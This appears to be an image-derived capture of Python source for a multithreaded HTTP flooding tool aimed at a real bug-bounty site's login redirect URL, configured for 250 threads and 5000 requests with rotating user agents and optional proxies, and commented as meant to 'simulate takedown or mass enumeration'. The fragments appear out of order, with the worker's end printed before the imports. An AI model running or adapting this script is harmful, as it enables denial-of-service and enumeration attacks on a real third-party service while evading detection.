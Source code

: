 ```python
            with open(output_csv, mode="a", newline="", encoding="utf-8") as f:
                writer = csv.writer(f)
                writer.writerow([
                    req_num, resp.status_code, final_url, latency,
                    content_length, redirected, proxy_str, headers_json,
                    html_filename, suspicious
                ])

        except Exception as e:
            print(f"[#{req_num}] ERROR: {e}")

        queue.task_done()

threads = []
for _ in range(num_threads):
    t = threading.Thread(target=worker)
    t.daemon = True
    threads.append(t)
    t.start()

queue.join()
print("✅ All requests completed. Logs and HTML saved.")
```
Run:

python3 res.py

```python
import requests
import threading
import random
import json
import time
import csv
import os
import re
from queue import Queue

# ----- CONFIG -----
target_url = "https://bugs.immunefi.com/?redirect_to=%2Fdashboard%2Fsubmission%2F"
num_threads = 250           # Higher concurrency for stress
num_requests = 5000         # More requests to simulate takedown or mass enumeration
proxies_list = [
    # Example: "http://127.0.0.1:9050"
]
output_csv = "immunefi_poc_log.csv"
output_dir = "responses_html"
use_proxies = False
# -------------------

user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 12_5) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.5 Safari/605.1.15",
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 17_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.2 Mobile/15E148 Safari/604.1",
]

if not os.path.exists(output_dir):
    os.makedirs(output_dir)

```